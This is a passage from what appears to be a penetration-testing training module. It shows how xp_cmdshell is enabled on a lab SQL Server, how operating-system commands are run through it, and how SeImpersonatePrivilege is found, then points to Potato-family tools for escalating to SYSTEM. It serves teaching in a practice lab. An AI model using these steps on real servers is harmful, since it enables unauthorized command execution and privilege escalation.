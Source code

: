 We could then choose `enable_xp_cmdshell` to enable the [xp_cmdshell stored procedure](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15)
 which allows for one to execute operating system commands via the 
database if the account in question has the proper access rights.

### Choosing enable_xp_cmdshell

Privileged Access

```
SQL> enable_xp_cmdshell

[*] INFO(ACADEMY-EA-DB01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
[*] INFO(ACADEMY-EA-DB01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.

```

Finally, we can run commands in the format `xp_cmdshell <command>`. Here we can enumerate the rights that our user has on the system and see that we have [SeImpersonatePrivilege](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege), which can be leveraged in combination with a tool such as [JuicyPotato](https://github.com/ohpe/juicy-potato), [PrintSpoofer](https://github.com/itm4n/PrintSpoofer), or [RoguePotato](https://github.com/antonioCoco/RoguePotato) to escalate to `SYSTEM`
 level privileges, depending on the target host, and use this access to 
continue toward our goal. These methods are covered in the `SeImpersonate and SeAssignPrimaryToken` of the [Windows Privilege Escalation](https://academy.hackthebox.com/course/preview/windows-privilege-escalation) module. Try them out on this target if you would like to practice further!

### Enumerating our Rights on the System using xp_cmdshell

Privileged Access

```
xp_cmdshell whoami /priv
output

--------------------------------------------------------------------------------

NULL

PRIVILEGES INFORMATION

----------------------

NULL

Privilege Name                Description                               State

============================= ========================================= ========

SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled

SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled

SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled

SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled

SeImpersonatePrivilege        Impersonate a client after authentication Enabled

SeCreateGlobalPrivilege       Create global objects                     Enabled

SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> Exit-PSSession